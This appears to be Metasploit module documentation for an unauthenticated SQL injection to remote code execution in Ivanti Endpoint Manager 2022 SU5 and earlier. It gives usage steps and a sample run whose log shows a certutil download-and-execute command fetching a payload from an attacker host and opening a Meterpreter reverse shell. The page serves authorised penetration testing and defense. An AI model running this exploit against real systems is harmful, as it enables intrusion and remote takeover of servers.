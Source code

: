 ## Vulnerable Application

Ivanti Endpoint Manager (EPM) 2022 SU5 and prior are vulnerable to
unauthenticated SQL injection which can be leveraged to achieve unauthenticated
remote code execution.

### Installation
Download and run the installer of a vulnerable version of Ivanti Endpoint
Manager (EPM) from https://www.ivanti.com/resources/downloads. Note that a
service account with Ivanti is required.

## Verification Steps
1. Install the application
1. Start msfconsole
1. Do: `use windows/http/ivanti_epm_recordgoodapp_sqli_rce`
1. Do: `exploit rhost=<remote host>`
1. You should get a session.

## Options

### DELAY
The delay to detect if the target is vulnerable using time-based SQLi in second (default: 5)

## Scenarios

This has been tested against EPM version 2021.1 and 2022 (no Service Update) on Windows Server 2019
```
msf6 exploit(windows/http/ivanti_epm_recordgoodapp_sqli_rce) > exploit verbose=true rhosts=192.168.101.130

[*] Command to run on remote host: certutil -urlcache -f http://192.168.101.40:8080/GgcI9uEq8wim98SvWzx8DQ %TEMP%\TXnDFJhrK.exe & start /B %TEMP%\TXnDFJhrK.exe
[*] Fetch handler listening on 192.168.101.40:8080
[*] HTTP server started
[*] Adding resource /GgcI9uEq8wim98SvWzx8DQ
[*] Started reverse TCP handler on 192.168.101.40:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if the target is vulnerable using time-based SQLi (delay=5
[*] Baseline query elapsed time: 0.5334880000445992
[*] Delayed query elapsed time: 5.020284999860451
[+] The target is vulnerable. SQLi executed
[*] Client 192.168.101.40 requested /GgcI9uEq8wim98SvWzx8DQ
[*] Sending payload to 192.168.101.40 (Microsoft-CryptoAPI/10.0)
[*] Client 192.168.101.40 requested /GgcI9uEq8wim98SvWzx8DQ
[*] Sending payload to 192.168.101.40 (CertUtil URL Agent)
[*] Sending stage (201798 bytes) to 192.168.101.40
[*] Meterpreter session 1 opened (192.168.101.40:4444 -> 192.168.101.40:64423) at 2024-06-20 10:50:21 +0200

meterpreter > getuid
Server username: NT Service\MSSQL$LDMSDATA
meterpreter > sysinfo
Computer        : WIN2019
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
